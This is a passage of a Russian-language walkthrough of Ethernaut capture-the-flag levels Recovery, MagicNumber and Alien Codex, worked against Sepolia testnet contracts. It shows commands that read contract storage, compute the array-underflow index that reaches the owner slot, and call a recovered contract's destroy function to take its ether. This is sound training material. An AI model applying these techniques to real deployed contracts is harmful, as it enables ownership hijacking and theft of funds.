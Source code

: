 
### 17. Recovery (***)
Из зацепок только sepolia etherscan. Иду смотреть по адресу контракта Recovery
https://sepolia.etherscan.io/address/0xF365Fa9536Be2c728E558bA9C6f34749f3416182#internaltx
Далее по транзакции видно 
Transfer 0.001 ETH From 0xa3e731...e56104d6 To 0xAF98ab...7acAB048
Transfer 0.001 ETH From 0xAF98ab...7acAB048 To 0x8F35d7...64a80C45 << Вот, что я ищу!

0x8F35d71602e7868DD9D7e3a3fdeF155f64a80C45 - адрес SimpleToken
Можно вызвать в remix его функцию transfer или destroy
Остальсь понять на какой адрес отправлять эфир. Отправлю на свой адрес

### 18. MagicNumber (***)
Мне нужен контракт который просто возвращает 42, чтобы у него ни спросили. FALLBACK конечно же
```
contract MagicNumber {
    fallback() external payable { 
        assembly {
            let res:=mload(0x40)
            mstore(res, 42)
            return(res,0x20)
        }
    }
}```
Нет не так. Меньше кода - еще меньше
```
object "Contract" {
    // This is the constructor code of the contract.
    code {
        // Deploy the contract
        datacopy(0, dataoffset("runtime"), datasize("runtime"))
        return(0, datasize("runtime"))
    }

    object "runtime" {
        code {
            let res:=mload(0x40)
            mstore(res, 42)
            return(res,0x20)
        }
    }
  }
```

### 19. Alien Codex (****)
>cast storage 0x434894aE876e082EDB94641014E8fc7A2C8eadC5 0 --rpc-url "https://ethereum-sepolia.publicnode.com"
0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd11
                        0x0bc04aa6aac163a6b3667636d798fa053d43bd11 - owner
0x000000000000000000000001                                         - bool public contact;                        
>cast storage 0x434894aE876e082EDB94641014E8fc7A2C8eadC5 1 --rpc-url "https://ethereum-sepolia.publicnode.com"
0x0000000000000000000000000000000000000000000000000000000000000005 - codex.length

>_ethers.utils.keccak256(_ethers.utils.defaultAbiCoder.encode(["uint256"], [1]))
'0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6' - first element of dynamic array codex

uint256.max - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + 1 = 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a - index of dynamic array codex -> slot 0

>contract.retract()
>contract.retract()
>contract.retract()
```